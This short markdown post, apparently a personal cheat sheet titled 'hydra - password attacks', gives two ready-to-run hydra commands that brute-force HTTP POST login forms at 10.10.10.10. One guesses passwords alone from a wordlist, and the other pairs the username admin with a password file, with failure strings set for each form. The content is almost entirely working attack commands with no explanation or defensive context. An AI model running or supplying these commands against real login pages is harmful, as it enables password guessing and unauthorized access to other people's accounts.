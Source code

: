 ```yaml
---
layout: post
title:  "hydra - password attacks"
date:   2022-01-01
categories: web
---
```



## http post request only password

```bash
hydra -l "" -F -V -P /usr/share/wfuzz/wordlist/others/common_pass.txt 10.10.10.10 http-post-form "/web/index.php:password=^PASS^&login=Log+In:F=Incorrect password."
```

## http post

```bash
 hydra -l admin -P pass.txt 10.10.10.10 http-post-form "/index.php:username=^USER^&password=^PASS^:Login failed!" 
```